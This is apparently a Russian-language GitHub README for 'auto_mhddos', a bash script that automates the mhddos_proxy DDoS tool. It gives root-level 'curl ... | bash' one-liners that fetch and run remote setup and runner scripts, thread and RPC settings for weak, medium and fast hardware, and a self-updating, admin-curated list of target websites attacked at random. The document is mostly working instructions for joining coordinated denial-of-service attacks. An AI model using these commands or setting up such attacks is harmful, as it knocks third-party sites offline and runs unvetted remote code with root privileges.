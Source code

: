 # auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

## Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### Установка или получение обновлений

* Выполняем команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash`

* Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### Запуск скрипта

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

#
Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ): `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100`

-- Среднее: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200`

-- Быстрое: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000`

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.
#

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

### Завершение скрипта

Чтобы завершить скрипт, простой закройте окно с терминалом

ИЛИ

В другом терминале выполните команду "pkill python3", потом в основном терминале нажмите CTRL + C.
